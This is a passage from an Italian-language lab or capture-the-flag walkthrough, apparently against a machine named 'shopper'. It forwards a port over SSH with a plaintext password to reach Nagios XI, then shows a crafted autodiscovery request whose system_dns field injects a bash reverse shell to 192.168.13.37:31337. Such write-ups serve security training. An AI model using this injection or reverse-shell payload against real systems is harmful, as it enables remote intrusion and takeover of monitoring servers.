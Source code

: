 Avendo accesso ssh forwardiamo la porta 80 così che possiamo collegarci anche a *nagiosxi*
```
$ sshpass -p Buc4t1n1C4c103P3p3 ssh -L 172.16.150.151:80:127.0.0.1:80 darren@172.16.150.137
Welcome to Ubuntu 18.10 (GNU/Linux 4.18.0-25-generic x86_64)
[...]
Last login: Mon Jan 27 21:11:23 2020 from 172.16.150.151
darren@shopper:~$
```
Esplorando l’applicazione noteremo che il periodo di prova (trial) è scaduto. Nessun problema, le funzionalità e l’exploit descritto in [3] funzionano ancora perfettamente
![nagiosXI web interface](04.png)

Utilizzando BURP modifichiamo una qualsiasi richiesta in modo da ottenere qualcosa del tipo
```
POST /nagiosxi/includes/components/autodiscovery/?mode=newjob HTTP/1.1
Host: nagiosxi.local
Content-Type: application/x-www-form-urlencoded
Content-Length: 310
Connection: close
Cookie: nagiosxi=8rspko6npt4lkfqcvo9u5i70b2

update=1&job=-1&nsp=d333dca41f296fae9327eecdce86332176ed6bfc82c352e3276751ecedd6f172&address=192.168.1&exclude_address=&frequency=Once&hour=09&minute=00&ampm=AM&dayofweek=1&dayofmonth=1&os_detection=on&scandelay=&system_dns=%3bbash+-i+>%26+/dev/tcp/192.168.13.37/31337+0>%261%3b&topology_detection=&updateButton=
```
A questo punto andiamo a prendere il valore di *nsp_str* dal sorgente della pagina; sembra essere una sorta di csrf token